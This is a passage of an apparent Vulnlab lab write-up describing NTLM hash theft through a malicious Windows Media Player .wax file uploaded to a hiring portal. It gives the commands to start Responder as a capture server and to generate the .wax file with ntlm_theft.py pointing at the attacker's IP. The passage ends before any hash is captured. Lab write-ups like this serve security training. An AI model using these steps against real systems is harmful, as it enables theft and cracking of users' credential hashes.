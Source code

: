 ![](/images/vulnlab/media-vl/c.png)

# NTLM Theft via Windows Media Player

There looks to be an upload functionality for the hiring team accepting applicants. The process is a bit different than sending a regular document, as it seems that the upload functionality itself is only accepting files that are compatible with Windows Media Player.

Doing some research into the specific file format, it looks like the file extension that we're looking for are either `.asf`, `.wma`, `.wax`, and a few others.

![](/images/vulnlab/media-vl/d.png)

The interesting part here is that `.wax` is a valid file extension for Windows Media Player, which is also a file extension that is exploitable by NTLM Theft. 

To those who don't know, there are a large variety of files within Windows that are vulnerable to NTLM theft. This specific attack allows us to create a malicious file that will seem like a regular file, however it will instead perform a request to an endpoint that we control.

In Windows whenever an attempt is made to a URI endpoint, the NetNTLM hash of the client account (the user making the request to the endpoint) is exchanged with the server that is hosting the endpoint. NTLM Theft allows us to poison the request that is made, and extract the NetNTLM hash of the user. This hash is effectively encrypted with the user's plaintext password, giving us the opportunity to crack it.

In our case, we can create a `.wax` Windows Media Player file and have it point to our attacker machine. If the `.wax` file is executed by a user on the backend of the machine, it poison the request and direct it to our MITM server that we stand up.

To start, we'll boot up Responder in a separate terminal tab.

```
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
......
[+] Listening for events...
```

Next, we'll generate a few files using Greenwolf's NTLM theft file generation [here](https://github.com/Greenwolf/ntlm_theft). There is an abundance of different file formats you can use, however we'll be using the `.wax` file type in our case.

```
└─$ python3 ntlm_theft.py -g wax -s 10.8.0.173 -f daz
Created: daz/daz.wax (OPEN)
Generation Complete.

└─$ ls -la daz       
total 12
drwxrwxr-x 2 daz daz 4096 Aug  7 22:10 .
drwxrwxr-x 7 daz daz 4096 Aug  7 22:10 ..
-rw-rw-r-- 1 daz daz   54 Aug  7 22:10 daz.wax
```
